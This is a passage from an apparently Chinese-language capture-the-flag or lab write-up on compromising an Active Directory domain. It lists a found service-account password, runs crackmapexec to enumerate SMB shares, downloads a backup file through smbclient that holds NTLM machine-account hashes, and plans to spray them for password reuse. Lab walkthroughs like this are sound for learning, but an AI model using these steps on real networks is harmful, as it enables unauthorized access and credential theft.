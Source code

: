 ```PowerShell
file\_svc：Password123!!
```
看这个名字就知道与文件服务相关

## 6. smb检测一下

```PowerShell
crackmapexec smb SOUPEDECODE.LOCAL -u file\_svc -p 'Password123!!' --shares
```

![20.DC01.002](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/20.DC01.002.png)

可以发现里面有一个backup 共享

## 7. smbclient连接

```PowerShell
smbclient -U 'file\_svc' //SOUPEDECODE.LOCAL/backup
Password for [WORKGROUP\file\_svc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jun 18 01:41:17 2024
  ..                                 DR        0  Tue Jun 18 01:44:56 2024
  backup\_extract.txt                  A      892  Mon Jun 17 16:41:05 2024

                12942591 blocks of size 4096. 10958701 blocks available
smb: \> ls -la
NT\_STATUS\_NO\_SUCH\_FILE listing \-la
smb: \> dir -a
NT\_STATUS\_NO\_SUCH\_FILE listing \-a
smb: \> ls -a
NT\_STATUS\_NO\_SUCH\_FILE listing \-a
smb: \> ls
  .                                   D        0  Tue Jun 18 01:41:17 2024
  ..                                 DR        0  Tue Jun 18 01:44:56 2024
  backup\_extract.txt                  A      892  Mon Jun 17 16:41:05 2024

                12942591 blocks of size 4096. 10958701 blocks available
smb: \> get backup\_extract.txt
getting file \backup\_extract.txt of size 892 as backup\_extract.txt (58.1 KiloBytes/sec) (average 58.1 KiloBytes/sec)
smb: \> exit
```


```PowerShell
cat backup\_extract.txt
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```
获取到了一些目标服务账户的NTLM 密码哈希值，利用这些hash搭配前面的用户名单进行枚举，检查是否出现任何重复使用的密码
